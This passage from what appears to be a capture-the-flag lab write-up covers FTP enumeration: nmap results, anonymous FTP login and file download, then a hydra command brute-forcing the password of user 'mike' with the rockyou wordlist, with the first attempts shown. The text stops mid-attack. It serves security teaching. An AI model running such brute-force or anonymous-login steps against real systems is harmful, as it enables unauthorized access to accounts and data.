 2   189.35 ms <ip>

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.22 seconds{% endraw %}{% endcapture %} {% include code.html code=code%}

We can see anonymous login is enabled and the file which can be retrieved using the same.
{% capture code %}{% raw %}ftp <ip>{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained.
{% capture code %}{% raw %}Connected to <ip>.
220 Welcome to the administrator FTP service.
Name (<ip>:<user>): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.{% endraw %}{% endcapture %} {% include code.html code=code%}

Get the contents of file `PUBLIC_NOTICE.txt` to check if any useful information is available.
{% capture code %}{% raw %}ftp> pwd
  257 "/" is the current directory
ftp> ls
  200 PORT command successful. Consider using PASV.
  150 Here comes the directory listing.
  -rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
  226 Directory send OK.
ftp> get "PUBLIC_NOTICE.txt"
  local: PUBLIC_NOTICE.txt remote: PUBLIC_NOTICE.txt
  200 PORT command successful. Consider using PASV.
  150 Opening BINARY mode data connection for PUBLIC_NOTICE.txt (353 bytes).
  226 Transfer complete.
  353 bytes received in 0.00 secs (137.7254 kB/s)
ftp> !cat PUBLIC_NOTICE.txt{% endraw %}{% endcapture %} {% include code.html code=code%}


### Task 10 - Exploiting FTP

### References
- [Securing FTP](https://www.jscape.com/blog/bid/91906/Countering-Packet-Sniffers-Using-Encrypted-FTP){:target="_blank"}
- [NMAP Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}
- [Install Hydra](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-hydra){:target="_blank"}
- [Wordlist Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#wordlists---rockyou){:target="_blank"}


Use `hydra` to exploit ftp.
{% capture code %}{% raw %}hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained.
{% capture code %}{% raw %}Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal  purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-03 00:56:15
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://<ip>:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target <ip> - login "mike" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target <ip> - login "mike" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target <ip> - login "mike" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target <ip> - login "mike" - pass "password" - 4 of 14344399 [child 3] (0/0)